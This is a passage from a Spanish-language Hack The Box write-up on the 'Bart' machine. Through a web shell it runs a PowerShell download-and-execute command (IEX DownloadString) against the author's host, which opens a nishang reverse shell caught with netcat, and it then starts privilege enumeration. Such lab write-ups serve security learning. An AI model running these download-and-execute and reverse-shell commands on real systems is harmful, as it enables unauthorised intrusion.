 ![""](/assets/images/htb-bart/bart-log4.png)

Ahora nos copiamos el archivo `Invoke-PowerShellTcp.ps1` a nuestro directorio de trabajo y procedemos a editarlo agregando la siguiente linea hasta el final del archivo `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.17 -Port 443`

```bash
❯ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 PS.ps1
```

Nos compartimos un servidor HTTP con python y ejecutamos lo siguiente para ganar acceso a la máquina `http://internal-01.bart.htb/log/shell.php?cmd=C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe%20IEX(New-Object%20Net.WebClient).downloadString(%27http://10.10.14.17/PS.ps1%27)`.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.81 - - [04/Oct/2021 23:21:41] "GET /PS.ps1 HTTP/1.1" 200 -
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.81] 50342
Windows PowerShell running as user BART$ on BART
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
nt authority\iusr
PS C:\inetpub\wwwroot\internal-01\log>
```

Ya hemos ingresado a la máquina como el usuario `nt authority\iusr`. Vamos a comprobar si nos encontramos en un proceso de 64 bits.

```bash
[Environment]::Is64BitProcess
True
[Environment]::Is64BitOperatingSystem
True
PS C:\inetpub\wwwroot\internal-01\log>
```

Ahora nos queda escalar privilegios, por lo que pasamos a enumerar un poco la máquina:

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
PS C:\Users>
```
